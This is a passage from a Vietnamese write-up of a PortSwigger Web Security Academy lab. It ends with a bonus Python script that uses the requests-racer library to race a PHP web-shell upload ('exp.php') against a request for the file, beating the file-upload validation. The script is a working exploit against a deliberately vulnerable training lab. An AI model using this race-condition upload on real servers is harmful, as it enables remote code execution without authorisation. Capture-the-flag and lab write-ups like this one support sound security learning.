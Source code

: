 Submit secret và solve bài lab
>![](https://i.imgur.com/HxJ22XF.png)

**Bonus cript python request racing**
Em sử dụng code request_racer ở repo: https://github.com/nccgroup/requests-racer
Sửa lại tham số `num_chunk` trong file `core.py` của nó thành 1
Và script của em như sau
```python
import requests
from requests_racer import SynchronizedSession
import html2text

s = SynchronizedSession(num_threads=2)
url = "https://0aea001004f9aaaec07aa98800d700d7.web-security-academy.net/"
file = { "avatar" : open('exp.php','rb')}
cookie = {
    "session" : "phYQ9TggcTad5i8qJuyqOzDxJhktb6wm"
}
data = {
    "csrf" :"eoowJPdrhCdKPUeN69ACrb7lvEYIBure",
    "user" : "wiener"
}

r1 = s.post(url=url +"my-account/avatar", files=file, data=data, cookies=cookie)
r2 = s.get(url=url+ "files/avatars/exp.php", cookies=cookie)

s.finish_all()
print(r1.status_code)
print(html2text.html2text(r2.text))
```

Có thể 1 số lần racing không thành công, thử lại thêm sẽ thấy có kết quả
<hr>
